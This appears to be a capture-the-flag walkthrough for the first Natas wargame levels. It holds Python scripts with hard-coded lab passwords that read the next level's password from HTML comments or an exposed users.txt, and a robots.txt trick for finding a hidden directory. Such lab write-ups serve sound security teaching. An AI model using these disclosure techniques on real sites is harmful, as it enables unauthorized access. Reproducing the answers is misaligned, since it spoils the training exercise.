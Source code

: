 
### Natas 1

Again Same as Level 0

```py
import requests
import re

username = 'natas1'
password = 'g9D9cREhslqBKtcA2uocGHPfMZVzeFK6'

url = 'http://%s.natas.labs.overthewire.org'%username

response = requests.get(url,auth=(username,password))
content = response.text

flag = re.findall("<!--The password for natas2 is (.*) -->",content)[0]

print(flag)
```

---

### Natas 2

View the source file of natas2 using inspect tool , then there will be a `img` tag with path `~/files/pixel.png` , view the directory of `~/files/` there will a file called `users.txt` , refer those directory

```py
import requests
import re

username = 'natas2'
password = 'h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7'

url = 'http://%s.natas.labs.overthewire.org/files/users.txt'%username

response = requests.get(url,auth=(username,password))
content = response.text

flag = re.findall("natas3:(.*)",content)[0]
print(flag)
```

---

### Natas 3

There is no previous `img` file , so we refer `robots.txt` , [http://natas3.labs.overthewire.org/robots.txt](http://natas3.natas.labs.overthewire.org/robots.txt) which has

```
User-agent: *
Disallow: /s3cr3t/
```
